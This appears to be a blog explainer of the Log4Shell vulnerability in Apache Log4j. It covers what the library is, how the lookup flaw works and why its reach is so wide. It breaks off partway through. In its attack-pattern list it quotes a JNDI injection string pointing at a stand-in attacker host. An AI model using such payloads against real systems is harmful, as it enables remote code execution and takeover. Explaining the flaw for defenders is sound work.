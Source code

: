 ```yaml
---
title: "The quick log4j vulnerability explainer"
date: "2021-12-14"
description: "Explanation of the zero-day vulnerability in log4j, its impact on enterprise environments, and practical mitigation steps that actually work."
excerpt: "A practical guide to understanding and responding to the Log4Shell vulnerability that sent the security world into crisis mode."
---
```


# The quick log4j vulnerability explainer

On December 9, 2021, the cybersecurity world exploded with news of a critical vulnerability in Apache Log4j, a Java logging library used in countless applications worldwide. Within hours, security teams everywhere were scrambling to understand their exposure and implement mitigations. Here's what you need to know.

## What is Log4j?

Log4j is a Java logging library developed by the Apache Software Foundation. It's one of the most widely used logging frameworks in the Java ecosystem, embedded in thousands of applications, services, and products. If your organization uses Java applications – and most do – you're likely using log4j somewhere, possibly without even knowing it.

The library helps developers add logging functionality to their applications, allowing them to record events, errors, and other information for debugging and monitoring purposes.

## The Vulnerability (CVE-2021-44228)

The vulnerability, nicknamed "Log4Shell," exists in log4j's lookup feature. When log4j processes certain specially crafted strings, it attempts to resolve them as lookup expressions. This seemingly innocent feature becomes dangerous when attackers can control what gets logged.

Here's the basic attack pattern:
1. Attacker sends a malicious string like `${jndi:ldap://attacker.com/evil}`
2. The target application logs this string using log4j
3. Log4j processes the lookup expression and makes an LDAP request to the attacker's server
4. The attacker's server responds with malicious Java code
5. The vulnerable application executes this code, giving the attacker control

## Why This Is So Serious

Several factors make this vulnerability particularly devastating:

### Ubiquity
Log4j is embedded in an enormous number of applications and services. This includes:
- Enterprise applications
- Web servers and application servers
- Cloud services and platforms
- Network appliances and security tools
- Gaming platforms (Minecraft was one of the first high-profile examples)
